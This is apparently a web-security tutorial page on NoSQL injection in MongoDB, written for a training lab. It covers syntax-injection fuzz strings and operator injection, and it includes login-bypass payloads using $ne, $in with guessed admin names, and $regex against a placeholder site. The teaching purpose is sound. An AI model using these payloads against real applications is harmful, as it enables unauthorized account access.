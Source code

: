  There are two different types of NoSQL injection:
 - Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
 - Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.

### Lab: Detecting NoSQL injection




## Detecting syntax injection in MongoDB
Consider a shopping application that displays products in different categories. When the user selects the Fizzy drinks category, their browser requests the following URL:
```
https://insecure-website.com/product/lookup?category=fizzy
```
 This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
```
this.category == 'fizzy'
```
To test whether the input may be vulnerable, submit a fuzz string in the value of the `category` parameter. An example string for MongoDB is: 
```
'"`{
;$Foo}
$Foo \xYZ
```
Use this fuzz string to construct the following attack:
```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.

> Note
> 
> NoSQL injection vulnerabilities can occur in a variety of contexts, and you need to adapt your fuzz strings accordingly. Otherwise, you may simply trigger validation errors that mean the application never executes your query.  
> In this example, we're injecting the fuzz string via the URL, so the string is URL-encoded. In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become:
```
 '\"`{\r;$Foo}\n$Foo \\xYZ\u0000 
```



## NoSQL operator injection
## Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`. 

For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`. If this doesn't work, you can try the following: 
1. Convert the request method from `GET` to `POST`.
1. Change the `Content-Type` header to `application/json`.
1. Add JSON to the message body.
1. Inject query operators in the JSON.

## Detecting operator injection in MongoDB
 Consider a vulnerable application that accepts a username and password in the body of a `POST` request:
```
{"username":"wiener","password":"peter"}
```
Test each input with a range of operators. For example, to test whether the username input processes the query operator, you could try the following injection: 
```
{"username":{"$ne":"invalid"},"password":{"peter"}}
```
 If the `$ne` operator is applied, this queries all users where the username is not equal to invalid.

If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload: 
```
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```
This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection. 

To target an account, you can construct a payload that includes a known username, or a username that you've guessed. For example: 
```
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

### Tip from the lab:
Change the value of the username parameter from `{"$ne":""}` to `{"$regex":"wien.*"}`, then send the request. Notice that you can also log in when using the `$regex` operator.

